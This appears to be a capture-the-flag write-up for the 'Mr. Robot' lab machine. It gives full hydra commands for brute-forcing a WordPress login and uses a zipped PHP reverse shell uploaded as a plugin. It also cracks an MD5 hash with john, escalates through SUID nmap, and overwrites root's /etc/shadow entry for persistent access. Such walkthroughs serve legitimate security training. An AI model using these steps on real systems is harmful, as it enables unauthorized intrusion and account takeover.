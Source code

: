 # Mr. Robot
_IP: 10.0.4.5_

The first thing I did was an nmap scan which you can find i this folder.
Basicly, it did not tell us much, but I found out that there is site running.

_The first thing I checked was:_
https://10.0.4.5/robots.txt

_This is what I've got:_<br>
> User-agent: *<br>
> fsocity.dic<br>
> key-1-of-3.txt

> [!NOTE]
> _key-1-of-3.txt is a flag for ctf doers._

**After some research I figured out that that was a wordpress site.**<br>
Then, I found the login page and started preparing for bruteforce.
Probably there was an easier way, but I ran BurpSuite intercepted traffic while trying to login, and got this line:<br>
> log=user&pwd=pwd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1

This is how looked a command for bruteforcing a username:<br>
`hydra -L fsocity.dic -p test 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:Invalid username" -V`
> [80][http-post-form] host: 10.0.4.5   login: Elliot   password: test

Now I need to bruteforce the password. But first we need to remove dublications from the file since there is a lot of them.
`sort fsocity.dic | uniq > new_fsocity.dic`

You can check the lenght of the file before and after using this command:
`wc -l`

Then run password bruteforcing.
`hydra -l Elliot -P n_fsocity.dic 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:The password you entered" -V`

Username: _Elliot_<br>
Password: _ER28-0652_

Looks like I can upload my own plugins, so I found a simple php reverse-shell, and zipped it, so wordpress thinks it is a plugin.
`zip rev-plug.zip ./shell.php`

Upload the plugin, set up a nc listener, and activate the plugin. Now we have a reverse-shell.
Use this command to upgrade the shell:
`python -c 'import pty; pty.spawn("/bin/bash")'`

We can see that there is a user named robot. Go to his folder and we will find:
> key-2-of-3.txt - Second key for ctfers<br>
> password.raw-md5

This is what I have found in password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

Let's crack the hash.
`john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt robot_hash.txt`
username: robot
password: abcdefghijklmnopqrstuvwxyz

Change current user to robot.

## Almost there
**Now we need to find a way to escalate our privileges.**

We cannot run sudo. Let's look what we can do.
I used the next command to find files that I can run with their owner privileges.
`find / -perm -u=s -type f 2>/dev/null`
One of these files was nmap.

It is useful to have a simple hash if we need in any case.
> WVLY0mgH0RtUI = mrcake

> [!NOTE]
> https://gtfobins.github.io/
> Useful site to find ways for privilege escalation.

To escalate our privileges with nmap I do:
`nmap --interactive`
`!sh`

Then modify the password of root in /etc/shadow to our known hash, so that you can easily access it again.
`nano /etc/shadow`
`root:WVLY0mgH0RtUI:16753:0:99999:7:::`

**Thank you for attention.**
